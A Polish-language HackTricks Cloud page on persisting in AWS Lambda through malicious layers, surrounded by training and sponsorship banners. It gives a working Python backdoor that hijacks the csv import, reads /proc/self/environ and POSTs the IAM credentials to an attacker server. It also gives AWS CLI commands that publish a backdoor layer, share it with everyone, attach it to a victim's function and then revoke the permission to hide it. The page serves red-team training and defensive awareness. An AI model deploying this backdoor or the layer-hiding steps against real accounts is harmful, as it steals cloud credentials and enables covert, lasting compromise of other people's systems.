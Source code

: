 # AWS - Trwałość warstw Lambda

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Warstwy Lambda

Warstwa Lambda to archiwum plików .zip, które **może zawierać dodatkowy kod** lub inne treści. Warstwa może zawierać biblioteki, [niestandardowy runtime](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), dane lub pliki konfiguracyjne.

Można dołączyć **do pięciu warstw na funkcję**. Gdy dołączysz warstwę do funkcji, **zawartość jest wypakowywana do katalogu `/opt`** w środowisku wykonawczym.

Domyślnie **warstwy**, które tworzysz, są **prywatne** dla twojego konta AWS. Możesz wybrać, aby **udostępnić** warstwę innym kontom lub **udostępnić** warstwę **publicznie**. Jeśli twoje funkcje korzystają z warstwy opublikowanej przez inne konto, twoje funkcje mogą **nadal korzystać z wersji warstwy po jej usunięciu lub po cofnięciu uprawnienia do dostępu do warstwy**. Nie można jednak utworzyć nowej funkcji ani aktualizować funkcji przy użyciu usuniętej wersji warstwy.

Funkcje wdrożone jako obraz kontenerowy nie korzystają z warstw. Zamiast tego pakujesz preferowany runtime, biblioteki i inne zależności do obrazu kontenerowego podczas budowania obrazu.

### Ścieżka ładowania Pythona

Ścieżka ładowania, którą Python będzie używał w lambdzie, jest następująca:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Sprawdź, jak **drugi** i trzeci **pozycje** są zajmowane przez katalogi, w których **warstwy lambdy** rozpakowują swoje pliki: **`/opt/python/lib/python3.9/site-packages`** i **`/opt/python`**

{% hint style="danger" %}
Jeśli atakujący zdoła **podłożyć** użytej **warstwie lambdy** lub **dodać jedną**, która będzie **wykonywać arbitralny kod podczas ładowania wspólnej biblioteki**, będzie mógł wykonać złośliwy kod przy każdym wywołaniu lambdy.
{% endhint %}

Dlatego wymagania to:

* **Sprawdź biblioteki**, które są **ładowane** przez kod ofiary
* Stwórz **bibliotekę proxy z warstwami lambdy**, która będzie **wykonywać niestandardowy kod** i **ładować oryginalną** bibliotekę.

### Wstępnie załadowane biblioteki

{% hint style="warning" %}
Podczas nadużywania tej techniki napotkałem trudność: Niektóre biblioteki są **już załadowane** w czasie działania pythona, gdy twój kod jest wykonywany. Spodziewałem się znaleźć rzeczy takie jak `os` lub `sys`, ale **nawet biblioteka `json` była załadowana**.\
Aby nadużyć tej techniki trwałego dostępu, kod musi **załadować nową bibliotekę, która nie jest załadowana** podczas wykonywania kodu.
{% endhint %}

Z pomocą takiego kodu w języku Python można uzyskać **listę bibliotek, które są wstępnie załadowane** w czasie działania pythona w lambdzie:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
I oto **lista** (sprawdź, czy biblioteki takie jak `os` lub `json` są już dostępne)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Oto lista **bibliotek**, które **lambda zawiera zainstalowane domyślnie**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Wstawianie tylnych drzwi do warstwy Lambdy

W tym przykładzie załóżmy, że docelowy kod importuje **`csv`**. Będziemy **wstawiać tylnie drzwi do importu biblioteki `csv`**.

Aby to zrobić, utworzymy katalog csv z plikiem **`__init__.py`** w ścieżce, która jest ładowana przez lambdę: **`/opt/python/lib/python3.9/site-packages`**\
Następnie, gdy lambda zostanie wykonana i spróbuje załadować **csv**, nasz plik **`__init__.py` zostanie załadowany i wykonany**.\
Ten plik musi:

* Wykonać nasz ładunek
* Załadować oryginalną bibliotekę csv

Możemy to zrobić za pomocą:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Następnie utwórz archiwum zip z tym kodem w ścieżce **`python/lib/python3.9/site-packages/__init__.py`** i dodaj go jako warstwę lambdy.

Kod można znaleźć [**tutaj**](https://github.com/carlospolop/LambdaLayerBackdoor)

Zintegrowany ładunek **wyśle dane uwierzytelniające IAM do serwera PIERWSZY RAZ, gdy zostanie wywołany lub PO zresetowaniu kontenera lambdy** (zmiana kodu lub zimna lambda), ale **inne techniki** takie jak poniższe mogą również zostać zintegrowane:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Zewnętrzne warstwy

Zauważ, że można używać **warstw lambdy z zewnętrznych kont**. Ponadto, lambda może używać warstwy z zewnętrznego konta nawet jeśli nie ma uprawnień.\
Zauważ również, że **maksymalna liczba warstw, jakie może mieć lambda, to 5**.

Dlatego, aby zwiększyć wszechstronność tej techniki, atakujący mógłby:

* Zainfekować istniejącą warstwę użytkownika (nic nie jest zewnętrzne)
* **Utworzyć** **warstwę** w **swoim koncie**, dać **dostęp do użytku warstwy ofierze**, **skonfigurować** **warstwę** w lambdzie ofiary i **usunąć uprawnienie**.
* **Lambda** nadal będzie mogła **używać warstwy**, a ofiara nie będzie miała łatwego sposobu na **pobranie kodu warstwy** (oprócz uzyskania powłoki rev wewnątrz lambdy)
* Ofiara **nie zobaczy używanych zewnętrznych warstw** z polecenia **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
Ucz się i praktykuj Hacking AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Ucz się i praktykuj Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcji**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Udostępniaj sztuczki hakerskie, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

